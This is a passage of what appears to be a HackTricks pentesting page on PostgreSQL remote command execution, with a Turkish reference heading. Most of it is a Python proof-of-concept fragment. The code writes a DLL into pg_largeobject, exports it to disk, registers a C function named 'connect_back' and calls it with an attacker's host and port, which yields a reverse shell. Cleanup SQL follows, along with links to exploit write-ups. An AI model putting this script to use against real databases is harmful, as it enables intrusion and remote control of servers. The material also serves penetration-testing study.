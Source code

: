 ```python
if (len(d) % 2048) != 0:
end   = (i+1) * 2048
sql += "insert into pg_largeobject(loid, pageno, data) values (1337, %d, decode('%s', 'hex'));" % ((i+1), d[end:].hex())

sql += "select lo_export(1337, 'poc.dll');"
sql += "create function connect_back(text, integer) returns void as '../data/poc', 'connect_back' language C strict;"
sql += "select connect_back('%s', %d);" % (host, port)
print("(+) building poc.sql file")
with open("poc.sql", "w") as sqlfile:
sqlfile.write(sql)
print("(+) run poc.sql in PostgreSQL using the superuser")
print("(+) for a db cleanup only, run the following sql:")
print("    select lo_unlink(l.oid) from pg_largeobject_metadata l;")
print("    drop function connect_back(text, integer);")
```
## Referanslar

- [https://www.dionach.com/blog/postgresql-9-x-remote-command-execution/](https://www.dionach.com/blog/postgresql-9-x-remote-command-execution/)
- [https://www.exploit-db.com/papers/13084](https://www.exploit-db.com/papers/13084)

{{#include ../../../banners/hacktricks-training.md}}
